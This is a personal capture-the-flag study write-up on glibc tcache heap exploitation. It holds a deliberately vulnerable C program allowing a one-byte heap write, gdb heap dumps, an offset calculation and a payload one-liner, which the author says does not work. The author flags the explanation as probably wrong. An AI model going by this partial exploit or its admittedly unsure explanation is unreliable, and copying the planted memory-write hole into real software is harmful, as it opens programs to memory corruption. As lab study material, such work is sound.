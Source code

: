 # Tcache read

**Note: the information here is probably wrong because I don't completely understand what's going on**

Based off [CTFs/Cache_Me_Outside.md at master · Dvd848/CTFs (github.com)](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md)

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int main(){
    char flag[100] = "poggerspoggerspoggersflagisowo";
    char* ptr = 0;
    char* message = malloc(0x80);
    strcpy(message, flag);
    char* messagex = malloc(0x80);
    strcpy(messagex, flag);
    char* message2 = malloc(0x80);
    strcpy(message2, "Heapowoowowowowowono flag for you");
    free(message);
    free(message2);
    int a = 0;
    int b = 0;
    scanf("%d",&a);
    scanf("%d",&b);
    printf("%lx",(long)a+(long)message); 
    *(char *)((long)a+(long)message) = b;
    char* message3 = malloc(0x80);
    puts((char *)((long)message3+0x10));
    return 0;
}
```

In heap challenges, it is important to know the exact libc version in use as `malloc` and `free` can have different behavior across libc versions.

I used `libc6_2.27-3ubuntu1.2_amd64` which can be downloaded from https://libc.blukat.me/d/libc6_2.27-3ubuntu1.2_amd64.so.

We will need to use [pwninit](https://github.com/io12/pwninit) to setup the environment. We will also use `patchelf` to make sure the binary runs with the correct libc. (If you skipped this step the binary will probably segfault idk)

```shell
$ ls
chal  chal.c libc6_2.27-3ubuntu1.2_amd64.so
$ pwninit
bin: ./chal
libc: ./libc6_2.27-3ubuntu1.2_amd64.so

fetching linker
unstripping libc
setting ./ld-2.27.so executable
$ ls 
chal  chal.c  ld-2.27.so  libc6_2.27-3ubuntu1.2_amd64.so  solve.py
$ patchelf  --set-interpreter ./ld-2.27.so ./chal
$ ./chal
1
1
55c3f10eb2a1wono flag for you
```

Now we've got our environment setup, let's look at the code.

The code `malloc`s a bunch of memory for `char* message`. As you probably know, `malloc` allocates memory on the heap, while if you did something like `char flag[100]` it goes on the stack.

After `malloc`, the flag is copied into the newly allocated memory. Another `char* message2` is also `malloc`ed and a fake flag copied onto it. 

Next, `message` is freed, then `message2` is freed. This is the interesting bit. 

## Tcache

[ref](https://payatu.com/blog/Gaurav-Nayak/introduction-of-tcache-bins-in-heap-management)

\When heap memory is freed, libc puts it in the tcache (thread local cache). Tcache was introduced in glibc 2.26 in 2017 to improve performance. The idea is when you `malloc` again, libc will allocate from tcache first. There are some conditions for whether libc will choose to use memory in tcache but I don't completely understand it. 

If you want to find out how tcache works, you can look at the reference (I probably should). Basically it's just a LIFO data structure (stack). Memory that gets freed last will be reallocated first.

Let's see this in action.

## gdb time

To analyze the heap in gdb, I used this extension to PEDA: [Mipu94/peda-heap: Some new commands debug heap for peda (github.com)](https://github.com/Mipu94/peda-heap)

Pop up gdb and set a breakpoint before and after the `free`s, then run the program.

When the first breakpoint triggers, run `heap all`. You'll see something like this:

```
gdb-peda$ heap all
0x555555559000 SIZE=0x290 DATA[0x555555559010] |................................| INUSED PREV_INUSE
0x555555559290 SIZE=0x90 DATA[0x5555555592a0] |poggerspoggerspoggersflagisowo..| INUSED PREV_INUSE
0x555555559320 SIZE=0x90 DATA[0x555555559330] |poggerspoggerspoggersflagisowo..| INUSED PREV_INUSE
0x5555555593b0 SIZE=0x90 DATA[0x5555555593c0] |Heapowoowowowowowono flag for yo| INUSED PREV_INUSE
0x555555559440 SIZE=0x20bc0 TOP_CHUNK
Last Remainder:  0x0
```

We can see where `malloc` allocated memory in the `DATA[address]` column. We can also see the contents of the memory, such as the `message` and `message2` strings. Let's go to the next breakpoint with `c`. Run `heap all ` and `heap freed` again.

```
gdb-peda$ heap all
0x555555559000 SIZE=0x290 DATA[0x555555559010] |................................| INUSED PREV_INUSE
0x555555559290 SIZE=0x90 DATA[0x5555555592a0] |..UUUU....UUUU..ggersflagisowo..| INUSED PREV_INUSE
0x555555559320 SIZE=0x90 DATA[0x555555559330] |poggerspoggerspoggersflagisowo..| INUSED PREV_INUSE
0x5555555593b0 SIZE=0x90 DATA[0x5555555593c0] |..........UUUU..wono flag for yo| INUSED PREV_INUSE
0x555555559440 SIZE=0x20bc0 TOP_CHUNK
Last Remainder:  0x0

gdb-peda$ heap freed
TCACHE: 0x555555559010
INDEX:0x7 -- SIZE:0x90 -- COUNT: 0x2
0x5555555593b0 SIZE=0x90 DATA[0x5555555593c0] |..UUUU....UUUU..wono flag for yo| INUSED PREV_INUSE
0x555555559290 SIZE=0x90 DATA[0x5555555592a0] |..........UUUU..ggersflagisowo..| INUSED PREV_INUSE
FASTBINS:
UNSORTBINS :
```

We notice that part of the memory has been overwritten. (Note: find out why). When we run `heap freed`, gdb will tell us what's in the tcache and where it is. There are also fastbins and unsortbins but idk what they are.

Anyway, we must remember that tcache is a LIFO stack. So, when we run `malloc` again, the `..........UUUU..wono flag for yo` buffer will be returned, instead of the `message` buffer that we want. 

How can we trick malloc into giving us the `message` buffer instead? Luckily, the code allows us to modify a single byte of memory. As tcache stores the address of freed buffers in memory. By overwriting this address, we can make tcache forget about a freed buffer. 

To make tcache forget about the `no flag for you` buffer, we search the memory for references to the address `0x5555555593c0`:

```
gdb-peda$ find 0x5555555593c0 all
Searching for '0x5555555593c0' in: all ranges
Searching for '0x5555555593c0' in: all ranges
Found 3 results, display max 3 items:
 [heap] : 0x5555555590c8 --> 0x5555555593c0 --> 0x5555555592a0 --> 0x0 
[stack] : 0x7fffffffdb68 --> 0x5555555593c0 --> 0x5555555592a0 --> 0x0 
[stack] : 0x7fffffffdf80 --> 0x5555555593c0 --> 0x5555555592a0 --> 0x0
```

As tcache is a thread local cache, it probably stores stuff in the heap. So we need to overwrite address `0x5555555590c8`. As the program allows to overwrite addresses relative to `message`, which is at `0x5555555592a0` according to `heap all`, we calculate `0x5555555590c8 - 0x5555555592a0 = -472`

So our payload will be 

```
{ echo "-472"; printf "\x00";}  | ./chal
```

but it doesn't work :(